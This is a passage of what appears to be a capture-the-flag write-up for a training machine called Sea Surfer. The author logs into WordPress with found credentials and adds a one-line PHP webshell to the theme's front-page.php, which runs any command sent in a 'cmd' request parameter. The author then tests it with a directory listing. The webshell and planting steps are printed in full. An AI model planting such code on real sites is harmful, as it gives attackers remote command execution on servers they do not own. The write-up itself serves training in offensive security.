 We have some credentials so let's login to wordpress by
visiting 

```
http://seasurfer.thm/wp-admin
```

Now let's add a
[php webshell](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}
into a theme template file. I'll use this payload and
add it into the homepage file `front-page.php`

```php
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```

![webshell](/images/seasurf/webshell.png)

When we visit the homepage with the `cmd` HTTP parameter
set, it will run that command. Let's test it to make
sure it works

```
http://seasurfer.thm/?cmd=ls%20-la
```

